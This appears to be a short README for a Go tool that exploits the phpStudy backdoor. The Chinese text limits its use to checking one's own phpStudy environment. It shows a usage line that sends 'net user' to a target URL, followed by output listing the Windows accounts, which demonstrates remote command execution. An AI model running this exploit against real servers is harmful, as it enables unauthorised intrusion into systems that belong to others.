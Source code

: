 # phpstudy_backdoor


仅供检测 自己的 phpstudy环境，请勿对其他网站使用。

 ` go run phpstudy_backdoor.go http://8.8.8.8/ "net user" `
 
 
 ```
Active code page: 65001

User accounts for \\WIN-25US8G3F849

-------------------------------------------------------------------------------
Administrator            Guest                    
The command completed successfully.

```
